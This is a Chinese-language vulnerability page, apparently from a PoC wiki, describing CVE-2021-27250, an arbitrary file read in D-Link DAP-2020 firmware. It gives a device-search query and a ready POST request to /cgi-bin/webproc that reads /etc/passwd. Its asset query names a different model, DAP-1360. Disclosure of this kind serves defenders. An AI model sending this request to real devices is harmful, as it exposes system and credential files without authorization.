 # D-LINK DAP-2020 webproc 任意文件读取漏洞 CVE-2021-27250

## 漏洞描述

近日D-Link发布公告[1]称旗下产品DAP-2020存在任意文件读取漏洞，CVE编号为CVE-2021-27250，目前已在硬件版本：A1，固件版本：1.01 上测试了PoC，由于漏洞影响核心组件，因此其他版本也可能受到此漏洞的影响

## 漏洞影响

<a-checkbox checked>D-LINK DAP-2020 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="DAP-1360" && body="6.05"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1657417802195-b0c19793-5041-4c70-8388-21a1827433b1.png)

验证POC

```php
POST /cgi-bin/webproc

getpage=html%2Findex.html&errorpage=/etc/passwd&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=123&%3Aaction=login&%3Asessionid=3c1f7123
```

![img](/assets/PeiQi-Wiki/img/1657419070826-a79f2e11-02b4-406b-a728-435e5259ceba.png)